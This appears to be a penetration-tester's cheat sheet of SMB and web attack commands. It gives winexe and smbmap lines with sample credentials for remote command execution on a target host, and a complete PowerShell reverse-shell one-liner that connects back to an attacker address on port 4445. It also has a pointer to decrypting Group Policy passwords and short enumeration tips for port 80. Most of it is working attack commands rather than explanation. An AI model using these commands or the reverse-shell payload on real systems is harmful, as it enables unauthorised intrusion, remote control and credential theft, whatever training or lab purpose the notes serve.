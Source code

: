 # Run cmd over smb from linux
winexe -U username //10.11.1.111 "cmd.exe" --system

# smbmap
smbmap.py -H 10.11.1.111 -u administrator -p asdf1234 #Enum

smbmap.py -u username -p 'P@$$w0rd1234!' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H 10.11.1.111 #RCE
smbmap.py -H 10.11.1.111 -u username -p 'P@$$w0rd1234!' -L # Drive Listing

smbmap.py -u username -p 'P@$$w0rd1234!' -d ABC -H 10.11.1.111 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.X""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' # Reverse Shell

# Check
\Policies\{REG}\MACHINE\Preferences\Groups\Groups.xml look for user&pass "gpp-decrypt "

# Port 80

https://guif.re/webtesting

Whatweb? search versions and server types on searchsploit

nikto scan vulnerabilities

Make sure to use a few good wordlists with gobuster/dirb

Use feroxbuster to enumerate more on the direcrtories

Check source code! Check for passwords Iframes in css that might be directories. Look for and green characters that might be tokens e.g user&password&token=1  <--use BURP -->



For any RCE exploits try with reverse shell port 443, 80, 4444. If no luck try making a user with msfvenom. Both may work! If not working try a few other exploits! open the exploit search to be more generic!

If there are other services open, correlate what can viewed/used if RFI/LFI is found.
